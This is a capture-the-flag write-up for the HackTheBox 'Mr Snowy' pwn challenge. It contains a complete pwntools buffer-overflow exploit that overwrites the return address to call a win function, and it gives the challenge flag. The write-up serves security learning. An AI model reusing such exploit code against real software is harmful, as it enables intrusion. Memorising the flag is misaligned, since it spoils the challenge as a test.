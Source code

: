 ```yaml
---
name: Mr Snowy (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Mr Snowy (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Mr Snowy

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/20FkOdoMiRU/0.jpg)](https://youtu.be/20FkOdoMiRU?t=1434s "HTB Cyber Apocalypse CTF 2021: Mr Snowy")

## Challenge Description

> Mr Snowy There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always ? staring at Santa's house. Something must be wrong with him.

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Build the payload
payload = flat({
    offset: elf.symbols.deactivate_camera
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b'>', b'1')
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
